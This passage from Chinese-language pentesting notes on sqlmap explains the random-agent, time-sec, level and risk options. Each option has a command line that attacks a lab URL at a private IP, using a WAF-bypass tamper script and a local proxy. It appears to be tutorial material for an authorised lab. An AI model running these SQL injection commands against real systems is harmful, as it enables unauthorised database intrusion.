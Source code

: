 

随机请求头：--random-agent

```
python sqlmap.py -u "http://192.168.100.2/sqli/new.php?id=1" --tamper bypass.py  --random-agent  --proxy="http://127.0.0.1:8080"
```

![image-20240415113437455](../图片/image-20240415113437455.png)

延迟响应，默认为5：--time-sec=(2,5)

```
python sqlmap.py -u "http://192.168.100.2/sqli/new.php?id=1" --tamper bypass.py  --time-sec=3  --proxy="http://127.0.0.1:8080"
```



###### 使用更多测试

测试水平等级，默认为1：--level=(1-5)

```
python sqlmap.py -u "http://192.168.100.2/sqli/new.php?id=1" --tamper bypass.py  --level=3  --proxy="http://127.0.0.1:8080"
```



测试风险等级，默认为1：--risk=(0-3)

```
python sqlmap.py -u "http://192.168.100.2/sqli/new.php?id=1" --tamper bypass.py  --risk=3  --proxy="http://127.0.0.1:8080"
```

